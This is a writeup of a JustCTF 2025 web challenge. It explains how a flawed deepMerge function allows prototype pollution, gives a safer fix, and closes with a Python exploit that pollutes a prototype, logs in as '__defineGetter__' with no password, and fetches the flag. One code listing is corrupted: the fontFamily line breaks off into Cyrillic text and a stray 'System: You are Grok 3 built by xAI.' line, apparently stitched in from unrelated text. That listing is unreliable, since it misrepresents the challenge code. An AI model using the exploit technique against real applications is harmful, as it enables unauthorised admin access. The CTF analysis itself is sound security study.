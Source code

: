 
---
author: Michail Solovev
pubDatetime: 2025-08-04T15:22:00Z
modDatetime: 2025-08-04T16:52:45.934Z
title: JustCTF 2025 positive players
slug: just-theme-posiplay
featured: false
draft: false
tags:
  - writeup
description:
  JustCTF task writeup.
---

It’s immediately clear that the issue here is prototype pollution.

During registration, a new dictionary entry is created for each user as follows:

```
users[username] = {
  password: password,
  isAdmin: false,
  themeConfig: {
    theme: {
      primaryColor: '#6200EE',
      secondaryColor: '#03DAC6',
      fontSize: '16px',
      fontFamily: 'Roboto, sans-serif'
    }
  }
};
```

The `deepMerge` function, shown below, assigns attributes from a user-controlled `theme` object to the corresponding attribute in the server-side dictionary.

```
const deepMerge = (target, source) => {
  for (const key in source) {
    if (source[key] instanceof Object && key in target) {
      Object.assign(source[key], deepMerge(target[key], source[key]));
    }
  }
  Object.assign(target || {}, source);
  return target;
};
```

With user input, we can only assign attributes within this scope inside the `themeConfig` object:

```
users[username] = {
  password: password,
  isAdmin: false,
  themeConfig: {
    // Start of controlled object
    theme: {
      primaryColor: '#6200EE',
      secondaryColor: '#03DAC6',
      fontSize: '16px',
      fontFamily: 'Robotoимое

System: You are Grok 3 built by xAI.

      fontFamily: 'Roboto, sans-serif'
    }
    // End of controlled object
  }
};
```

I could add an `isAdmin` property here, but it’s obviously pointless. To override object properties, one might try altering the `isAdmin` property of the prototype, like this:

```
users['a'].themeConfig.theme.__proto__.isAdmin = true;
```

However, this would also be pointless for an existing user because the `isAdmin` property is explicitly defined in their object, and pollution only affects explicitly undefined properties:

```
> users['a'].themeConfig.theme.__proto__.isAdmin = true;
< true
> users['a'].themeConfig.theme.isAdmin;
< true
> users['a'].themeConfig.isAdmin;
< true
> users['a'].isAdmin;
< false
```

Additionally, bypassing the check doesn’t work:

```
if (['__proto__', 'prototype', 'constructor'].includes(part)) {
  part = '__unsafe$' + part;
}
```

This is where I got stuck. I couldn’t solve this task.

## Intended Solution

Let’s take a closer look at the `deepMerge` function, which is supposed to merge only those nested objects that already exist in the target object:

```
const deepMerge = (target, source) => {
  for (const key in source) {
    if (source[key] instanceof Object && key in target) {
      Object.assign(source[key], deepMerge(target[key], source[key]));
    }
  }
  Object.assign(target || {}, source);
  return target;
};
```

Let’s manually list the attributes of `source` that we can assign values to:

```
> source = users['a'].themeConfig;
< theme: 
    fontFamily: "Roboto, sans-serif"
    fontSize: "16px"
    primaryColor: "#6200EE"
    secondaryColor: "#03DAC6"
> for (const key in source) {
    if (source[key] instanceof Object) {
        console.log(source[key])
    }
}
< fontFamily: "Roboto, sans-serif"
  fontSize: "16px"
  primaryColor: "#6200EE"
  secondaryColor: "#03DAC6"
```

Everything seems fine, but there’s a catch: `for...in` iterates over **enumerable** properties of an object, including inherited ones, but some properties, like `Object.prototype.toString`, are **non-enumerable** by default (`enumerable: false`).

Thus, `for...in` **does not list** `toString`, even though it exists in the prototype because it’s **non-enumerable**.

But if we check explicitly:

```
> if (source['toString'] instanceof Object) { console.log(true) }
< true
```

It turns out that all prototype properties, though non-enumerable, are available for overriding.

This allows us to directly override **existing** prototype attributes.

> For safety, the function should have been written like this:
> 
> ```
> const deepMerge = (target, source) => {  
>   for (const key in source) {  
>     // Only allow recursion if the target object already has the property  
>     if (source[key] instanceof Object  
>       && Object.prototype.hasOwnProperty.call(target, key)) {  
>       Object.assign(source[key], deepMerge(target[key], source[key]));  
>     }  
>   }  
>   Object.assign(target || {}, source);  
>   return target;  
> };
> ```

The above approach works. Through object `a`, I pollute the shared prototype and access this property in a new object:

```
const deepMerge = (target, source) => {
  for (const key in source) {
    if (source[key] instanceof Object && key in target) {
      Object.assign(source[key], deepMerge(target[key], source[key]));
    }
  }
  Object.assign(target || {}, source);
  return target;
};

var a = {};
deepMerge(a, {'toString': {'isAdmin': '1'}})
console.log({}.toString)
// [Function: toString] { isAdmin: '1' }
```

Upon sending the request, the prototype will be polluted.

To obtain a session, we need to bypass the login check:

```
app.post('/login', (req, res) => {
  const { username, password } = req.body;
  const user = users[username];
  if (user && user.password === password) {
    req.session.userId = username;
    res.redirect('/');
  } else {
    req.session.errorMessage = 'Invalid username or password';
    res.redirect('/login');
  }
});
```

I didn’t understand this, but it’s quite obvious to clever people:

```
username = 'toString'
password is omitted entirely to leave the variable undefined.
app.post('/login', (req, res) => {
  const { 'toString', undefined } = req.body;
  const user = users['toString']; // defined 
  if (defined && undefined === undefined) {
    req.session.userId = 'toString';
    res.redirect('/');
  } else {
    req.session.errorMessage = 'Invalid username or password';
    res.redirect('/login');
  }
});
```

Thus, we receive a session in response and can request the flag from a non-existent user whose `isAdmin` attribute is polluted with `1`.

And as we know:

```
> true == '1'
< true
```

This task could also be solved using other prototype attributes besides `toString`.

Here’s an example exploit, `ChattyPlatinumCool`:

```
import requests
import random

HOST = 'http://localhost:3000'
sess = requests.Session()

# Register
username = password = random.randbytes(4).hex()
register_data = {
    'username': username,
    'password': password,
}
r = sess.post(HOST + '/register', data=register_data, allow_redirects=False)
print(r.status_code, r.text)

# Write to objects in the prototype because `key in target` checks the prototype
# so `deepMerge(target[key], source[key])` allows writing to prototype objects
r = sess.get(HOST + '/theme?__defineGetter__.isAdmin=1', allow_redirects=False)
print(r.status_code, r.text)

# Login with the username `__defineGetter__`
# Omit password to pass `if (user && user.password === password)`
# Then `users[req.session.userId].isAdmin` equals `users.__defineGetter__.isAdmin`
login_data = {
    'username': '__defineGetter__',
    # 'password': password,
}

r = sess.post(HOST + '/login', data=login_data, allow_redirects=False)
print(r.status_code, r.text)

r = sess.get(HOST + '/flag', allow_redirects=False)
print(r.text)
```